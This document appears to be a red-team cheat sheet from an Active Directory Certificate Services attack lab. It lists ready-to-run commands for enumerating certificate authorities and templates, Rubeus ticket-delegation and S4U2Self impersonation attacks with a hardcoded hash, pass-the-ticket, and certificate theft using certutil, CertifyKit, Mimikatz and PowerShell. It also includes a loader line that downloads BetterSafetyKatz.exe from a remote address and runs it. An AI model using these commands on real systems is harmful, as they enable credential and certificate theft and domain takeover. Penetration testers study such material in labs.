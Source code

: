 # Look for AD CS containers using the AD Module

```powershell
Get-ADObject -Filter * -SearchBase '<CA authorities>'
ls 'AD:\<CA authoririty>'
```

## Based on ObjectClass

```powershell
Get-ADObject -LDAPFilter '(objectclass=certificationAuthority)' -SearchBase 'corp name' | fl *
```

## Enumerate CA

```powershell
Certify.exe cas
```

## Find Templates

```powershell
Certify.exe find
```

## CertPotato Vulnerability

### Perform tgtdeleg Attack to get a TGT

```powershell
Rubeus.exe tgtdeleg /nowrap
```

### Perform S4U2Self Attack to gain CIFS admin access

```powershell
Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/cb-webapp1.certbulk.cb.corp /dc:cb-dc.certbulk.cb.corp /user:'cb-webapp1$' /rc4:B2FCBA1C3570AB9418994799B9BC985A /ptt
```

## ADCS enumeration using ADMODULE

```powershell
Import-Module C:\ADCS\Tools\ADModule\Microsoft.ActiveDirectory.Management.dll 
Import-Module C:\ADCS\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
Get-ADDomain | ft DNSRoot, ParentDomain, InfrastructureMaster 
```

### Enumerate the Certification Authorities Container

```powershell
Get-ADObject -Filter * -SearchBase 'certificate container name'
```

ls 'AD:\CA authority container' | fl

Get-ADObject -LDAPFilter '(objectclass=certificationAuthority)' -SearchBase 'CA name' | fl * 

Use rubues for authenticating using ptt

Rubeus.exe ptt /ticket:<ticket>

### Enumerating the CertStore using CertUtil 

 certutil -store My
 certutil -user -store My

### Enumerating the CertStore using CertifyKit 

 CertifyKit.exe list
 CertifyKit.exe list /storename:my /storelocation:localmachine

### Enumerating the CertStore using PowerShell 

 Get-ChildItem Cert:\CurrentUser\ -Recurse
 Get-ChildItem Cert:\LocalMachine\ -Recurse  
 Get-ChildItem Cert:\LocalMachine\My -Recurse

### Exporting Certificates using CertUtil (THEFT1) 
 certutil -p "Passw0rd!" -exportpfx <serial number of the cert> C:\Users\Public\cert.pfx 

 ### Exporting Certificates using CertifyKit (THEFT1) 
 C:\Users\Public\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:<thumbprintofcert> /outfile:C:\Users\Public\cert_certifykit.pfx

### Exporting Certificates using Mimikatz (THEFT1) 
 C:\Users\Public\Loader.exe -path http://<ipaddress>/BetterSafetyKatz.exe -args "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
 crypto::capi
 privilege::debug
 crypto::certificates /systemstore:local_machine /store:my /export 

### Exporting Certificates using PowerShell (THEFT1) 
 Export-PfxCertificate -Cert Cert:\LocalMachine\My\93B4027A4CD6A67A175E796E5DF8B673ACD2D75D -FilePath C:\Users\Public\studentadmin_psh.pfx -Password $mypwd

### Certifcate Exfiltration

Sharpshare.exe - tool for domain share enumeration